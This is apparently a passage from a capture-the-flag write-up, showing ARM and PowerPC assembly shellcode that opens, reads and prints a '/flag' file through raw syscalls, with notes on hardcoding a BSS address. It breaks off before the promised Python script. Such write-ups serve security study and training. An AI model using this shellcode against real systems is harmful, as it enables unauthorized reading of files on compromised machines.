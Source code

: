         mov r7, #4
        mov r0, #1
        mov r1, r3

        svc #0

        mov r7, #1
        mov r0, #0
        svc #0

    filename:
        .string "/flag" 

We compiled this for ARMEL and ARMEB separately and used dd to copy out the text sections into raw binary files.

Our PPC shellcode is below. We had to hardcode the address of the BSS section of the provided binary by loading 0x1001 into r4, shifting it left 16 bytes, then loading the lower 2 bytes.

    shellcode:
        li      0, 5
        li      3, 0x41
        slwi    3, 3, 24
        addi    3, 3, (filename-shellcode+0x174)
        li      4, 0
        li      5, 0
        sc

        nop
        li      0, 3
        mr      3, 3
        li      4, 0x1001
        slwi    4, 4, 16
        ori     4, 4, 0x5a74
        li      5, 2048
        sc  

        nop
        mr      5, 3    
        li      0, 4
        li      3, 1
        li      4, 0x1001
        slwi    4, 4, 16
        ori     4, 4, 0x5a74
        sc  

        li      0, 1
        li      3, 0
        sc
        
    filename:
        .string "/flag"

We used a Python script to handle the assembly of the combined binary and the interaction with the server. `shellcode-ppc` was compiled manually on a different machine and moved over before each run. This is the script we used:
